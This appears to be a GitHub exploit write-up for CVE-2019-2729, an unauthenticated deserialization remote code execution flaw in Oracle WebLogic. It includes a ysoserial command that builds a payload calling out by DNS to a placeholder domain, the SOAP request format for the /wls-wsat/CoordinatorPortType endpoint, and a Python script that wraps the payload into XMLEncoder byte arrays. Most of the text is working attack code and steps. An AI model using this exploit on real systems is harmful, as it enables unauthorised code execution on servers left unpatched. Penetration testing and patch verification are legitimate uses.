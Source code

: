 
# Exploiting CVE-2019-2729 WebLogic Deserialization Vulnerability

## Introduction

CVE-2019-2729 is a Java deserialization vulnerability in Oracle WebLogic
versions 10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0.  Serialized Java objects are
accepted anonymously via an HTTP service and deserialized.  Remote code
execution is possible without authentication.

This exploit was tested against WebLogic 10.3.6.0.

A typical vulnerable server will have HTTP services listening on one or more
TCP ports which have a web application at /wls-wsat/.

## Generate a payload with ysoserial

First, get ysoserial (https://github.com/frohoff/ysoserial) and use it to
generate a simple RCE payload.

```
java -jar ysoserial-0.0.5-all.jar Jdk7u21 "nslookup test222.ourns.example.com" > payload
```

Here, we generate a payload using ysoserial which will do a DNS lookup that
we'll be able to monitor.  The "payload" file contains a serialized Java
LinkedHashSet object which will run this command.

Note that the ysoserial payload generator used here, named Jdk7u21, only
works under JRE version 7u21 and earlier (see
https://gist.github.com/frohoff/24af7913611f8406eaf3), however that seems to
be standard with WebLogic 10.3.6.0.  You might have to use a different
payload for newer versions of WebLogic. The advantage to Jdk7u21 is the lack
of any dependencies in the server's classpath.

## Transform the payload into SOAP

Next, we need to massage this blob into a SOAP HTTP request body.  The
affected web services accept SOAP requests containing Java objects encoded
in Java's XMLEncoder format.  An example request showing the format:

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 10.0.3.8:8200
SOAPAction:
Content-Type: text/xml
Content-Length: 204219

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
 <soapenv:Header>
  <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
   <java>
    <array method="forName">
     <string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string>
     <void>
      <array class="byte" length="3">
       <void index="0">
        <byte>1</byte>
       </void>
       <void index="1">
        <byte>2</byte>
       </void>
       <void index="2">
        <byte>3</byte>
       </void>
      </array>
     </void>
    </array>  
   </java>
  </work:WorkContext>   
 </soapenv:Header>
 <soapenv:Body/>
</soapenv:Envelope>
```

The payload generated above needs to be stuffed into a byte[] array by the
server. The following python script will generate the required request body
and write it to a file named "payload_encoded".

```
of = open('payload_encoded','w')
payload = open('payload').read()

of.write('<?xml version="1.0" encoding="utf-8"?>\n')
of.write('<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">\n')
of.write(' <soapenv:Header>\n')
of.write('  <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">\n')
of.write('   <java>\n')
of.write('    <array method="forName">\n')
of.write('     <string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string>\n')
of.write('     <void>\n')
of.write('      <array class="byte" length="%d">\n' % len(payload) )

for i in range(len(payload)):
    byte = payload[i]
    v = ord(byte)
    if v >= 128:
        v = -256+v
    of.write('       <void index="%d">\n' % i)
    of.write('        <byte>%d</byte>\n' % v)
    of.write('       </void>\n')

of.write('      </array>\n')
of.write('     </void>\n')
of.write('    </array>\n')
of.write('   </java>\n')
of.write('  </work:WorkContext>\n')
of.write(' </soapenv:Header>\n')
of.write(' <soapenv:Body/>\n')
of.write('</soapenv:Envelope>\n')
```

Next, send the generated request body to the affected service via a POST
request to POST /wls-wsat/CoordinatorPortType. The entire resulting HTTP
request should look just like the example above but much longer.

The server will return a 500 response, however you should see your DNS
lookup and therefore now have remote command execution.

